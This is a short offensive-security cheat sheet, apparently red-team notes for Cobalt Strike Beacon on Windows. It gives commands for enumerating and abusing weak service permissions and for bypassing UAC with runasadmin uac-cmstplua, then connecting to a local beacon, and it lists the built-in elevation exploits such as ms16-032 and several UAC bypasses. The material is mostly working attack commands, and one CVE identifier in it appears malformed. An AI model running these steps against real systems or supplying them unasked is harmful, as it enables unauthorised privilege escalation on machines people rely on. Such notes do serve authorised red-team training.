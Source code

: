 

#### Vulnerable Services

Enumerate available services
```powershell
sc_enum
```

> When abusing services, the dedicated svc.exe payloads must be used.

Query service and view permissions on file path
```powershell
sc_qc BadWindowsService

cacls "C:\Program Files\Bad Windows Service"
```


#### UAC Bypass

> Right-click the Beacon, select **Access > One-liner** and select the tcp-local listener.

Execute UAC bypasss
```powershell
runasadmin uac-cmstplua [ONE-LINER]
```

Connect to beacon
```powershell
connect localhost 1337
```

More can be found here
```powershell
beacon> runasadmin

Beacon Command Elevators
========================

    Exploit                         Description
    -------                         -----------
    ms16-032                        Secondary Logon Handle Privilege Escalation (CVE-2016-099)
    uac-cmstplua                    Bypass UAC with CMSTPLUA COM interface
    uac-eventvwr                    Bypass UAC with eventvwr.exe
    uac-schtasks                    Bypass UAC with schtasks.exe (via SilentCleanup)
    uac-token-duplication           Bypass UAC with Token Duplication
    uac-wscript                     Bypass UAC with wscript.exe
```